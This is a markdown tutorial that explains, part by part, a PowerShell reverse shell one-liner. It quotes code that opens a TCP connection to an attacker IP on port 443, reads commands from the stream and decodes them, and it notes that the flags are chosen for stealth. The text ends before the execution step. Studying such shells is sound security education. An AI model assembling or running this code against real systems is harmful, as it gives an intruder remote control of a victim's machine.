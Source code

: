 # PowerShell Reverse Shell Breakdown

This is a detailed explanation of each part of the PowerShell reverse shell script.

## Calling PowerShell
**`powershell -nop -c:`**
- **`-nop`**: This flag stands for "No Profile". It ensures that the PowerShell script does not load any profile scripts, making the process stealthier and faster.
- **`-c`**: This flag allows the execution of the following string as a command.

---

## Binding a Socket
**`$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443):`**
- Creates a new TCP client connection to the attacker's machine located at IP `10.10.14.158` on port `443`.
- This sets up the reverse shell connection to the attacker’s machine, allowing data to be sent and received.

---

## Setting the Command Stream
**`$stream = $client.GetStream():`**
- Gets the network stream to allow data transmission over the established TCP connection.

---

## Empty Byte Stream
**`[byte[]]$bytes = 0..65535|%{0}:`**
- Initializes a byte array `$bytes` with `65536` elements, all set to `0`. 
- This array will be used to store incoming data from the network stream.

---

## Stream Parameters
**`while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0):`**
- A loop is initiated where data is continuously read from the stream into the `$bytes` array until no more data is available (i.e., the length of data read is 0).

---

## Set the Byte Encoding
**`$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i):`**
- Converts the byte array `$bytes` into a string `$data` using ASCII encoding.
- The `$i` variable contains the number of bytes actually read from the stream.

---
